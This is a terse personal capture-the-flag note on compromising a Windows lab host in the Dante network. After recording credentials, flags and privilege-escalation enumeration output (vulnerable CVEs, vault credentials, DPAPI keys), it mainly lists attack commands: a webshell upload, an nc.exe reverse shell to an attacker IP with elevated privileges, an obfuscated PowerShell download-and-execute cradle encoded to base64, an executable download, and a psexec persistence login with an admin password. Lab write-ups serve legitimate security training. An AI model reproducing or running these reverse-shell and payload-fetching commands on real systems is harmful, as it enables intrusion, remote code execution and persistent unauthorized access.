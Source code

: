 # Information
- CTF Name: 
- CTF Level:
- CTF Description: 
- Date: 
- Platform: 
- Category: 
- IP: `172.16.1.13`

# Findings
### Credentials
` john , 12345`
` admin: admin `

### Flags
1. `DANTE{l355_t4lk_m04r_l15tening}`
2. `DANTE{Bad_pr4ct1ces_Thru_strncmp}`
## External
### Enumeration
![](https://i.imgur.com/0JBiJwb.png)

![](https://i.imgur.com/6SVvP5L.png)
![](https://i.imgur.com/zA3rwba.png)

![](https://i.imgur.com/4PHf7n6.png)
### Gaining Access
![](https://i.imgur.com/haVAvZz.png)
- I submitted A webshell insted of Image and It Accepted it.
![](https://i.imgur.com/BsKT5v5.png)
![](https://i.imgur.com/QUSt0O8.png)
## Internal
### Enumeration
```
[?] Windows vulns search powered by Watson(https://github.com/rasta-mouse/Watson)
 [*] OS Version: 1909 (18363)
 [*] Enumerating installed KBs...
 [!] CVE-2020-1013 : VULNERABLE
  [>] https://www.gosecure.net/blog/2020/09/08/wsus-attacks-part-2-cve-2020-1013-a-windows-10-local-privilege-escalation-1-day/

 [!] CVE-2020-0796 : VULNERABLE
  [>] https://github.com/danigargu/CVE-2020-0796 (smbghost)

 [*] Finished. Found 2 potential vulnerabilities.

�����͹ UAC Status
�If you are in the Administrators group check how to bypass the UAC https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#basic-uac-bypass-full-file-system-access
    ConsentPromptBehaviorAdmin: 0 - No prompting
    EnableLUA: 1
    LocalAccountTokenFilterPolicy: 1
    FilterAdministratorToken:
      [*] LocalAccountTokenFilterPolicy set to 1.
      [+] Any local account can be used for lateral movement.

C:\Users\gerald\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt

�����͹ RDP Sessions
    SessID    pSessionName   pUserName      pDomainName              State     SourceIP
    1         Console        gerald         DANTE-WS01               Active


- Installed APPs
- TCP        127.0.0.1             3306 

�����͹ Checking Windows Vault
� https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#credentials-manager-windows-vault
    GUID: 4bf4c442-9b8a-41a0-b380-dd4a704ddb28
    Type: Web Credentials
    Resource: http://localhost/
    Identity: ippsec
    Last Modified: 04/12/2020 01:02:44
   =================================================================================================

�����͹ Checking for DPAPI Master Keys
� https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#dpapi
    MasterKey: C:\Users\gerald\AppData\Roaming\Microsoft\Protect\S-1-5-21-3659841024-4065501111-2845508916-1001\33dec54e-d020-45d2-bbc8-f7f922d82b1a
    Accessed: 21/06/2024 20:13:10
    Modified: 13/07/2020 10:29:30
   =================================================================================================

    MasterKey: C:\Users\gerald\AppData\Roaming\Microsoft\Protect\S-1-5-21-3659841024-4065501111-2845508916-1001\36dade2f-7a5a-433d-b4bc-f43dd7d2ad1c
    Accessed: 13/04/2021 21:51:08
    Modified: 03/12/2020 16:20:01
   =================================================================================================

    MasterKey: C:\Users\gerald\AppData\Roaming\Microsoft\Protect\S-1-5-21-3659841024-4065501111-2845508916-1001\5fb5b093-9921-4de4-88c5-2b5571699187
    Accessed: 21/06/2024 20:13:32
    Modified: 21/06/2024 20:13:32
   =================================================================================================

    MasterKey: C:\Users\gerald\AppData\Roaming\Microsoft\Protect\S-1-5-21-3659841024-4065501111-2845508916-1001\c6ee2667-101d-40b4-9982-893ee2cd83c4
    Accessed: 13/04/2021 21:25:43
    Modified: 13/04/2021 21:51:17
   =================================================================================================

Start-Process powershell -Verb runAs "C:\xampp\htdocs\discuss\ups\nc.exe -e powershell 172.16.1.100 1003"
```
### Gaining Access


### Maintaining Access
![](https://i.imgur.com/5g9OBjZ.png)
![](https://i.imgur.com/gVzzhiz.png)
![](https://i.imgur.com/6iQScSQ.png)

- to access it back: `impacket-psexec Administrator:'hackyou!123'@172.16.1.13`
# Random Notes

```

echo "[Net.ServicePointManager]::SecurityProtocol=[Net.SecurityProtocolType]::Tls12;$dNSE=new-object net.webclient;if([System.Net.WebProxy]::GetDefaultProxy().address -ne $null){$dNSE.proxy=[Net.WebRequest]::GetSystemWebProxy();$dNSE.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;};IEX ((new-object Net.WebClient).DownloadString('http://172.16.1.100:4400/OT5JOoJLUIMi4f/PJWec8D'));IEX ((new-object Net.WebClient).DownloadString('http://172.16.1.100:4400/OT5JOoJLUIMi4f'));" | | iconv -f ascii -t utf-16le | base64 -w0


iwr -uri http://172.16.1.100:9090/rex1.exe -outfile rex.exe

```